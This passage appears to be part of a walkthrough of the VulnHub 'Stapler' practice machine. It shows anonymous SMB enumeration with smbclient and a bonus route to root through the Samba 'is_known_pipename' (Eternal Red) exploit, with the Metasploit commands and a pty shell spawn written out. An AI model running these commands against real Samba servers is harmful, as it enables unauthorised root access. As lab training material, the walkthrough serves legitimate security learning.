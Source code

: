 ```
get vsftpd.conf
```
Now we'll try the temp folder:
```
smbclient //kathy/tmp -I $STAPLER_IP -N
ls
```
Another file:
```
  .                                   D        0  Sun Aug  4 21:03:32 2019
  ..                                  D        0  Mon Jun  6 22:39:56 2016
  ls                                  N      274  Sun Jun  5 16:32:58 2016

```

And get the ls [file](/assets/vulnhub_stuff/stapler/ls.txt):
```
get ls
```

we can determin a few things from these files:
FTP has anon login and fred and kathy are both users.

> __BONUS__ Eternal Red Exploit to root: 

We get a lot of good info, but the information that is of most interest is the Samba version as 4.3.9-Ubuntu is vulnerable to Eternal Red

Doing the following shows a path to get root 

``` bash
searchsploit samba 4
# gives us
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Module Load (Metasploit)                          | exploits/linux/remote/42084.rb
```

ok, from experience I know this should be a point and shoot to win.
fire up of msf and running the following will take us there:

``` bash
mfsconsole
search is_known_pipename
use exploit/linux/samba/is_known_pipename 
show options
set RHOSTS 192.168.56.104 #
set RPORT 139
set payload cmd/unix/interact
run

#this should get a shell, spawn a bash one:
python -c 'import pty; pty.spawn("/bin/bash")'
#then show root
id
```

We won't go through this way as Eternal Red was a serious issue that came out after this box was deployed to VulnHub. While it will work, it isn't something the box designer had in mind. 
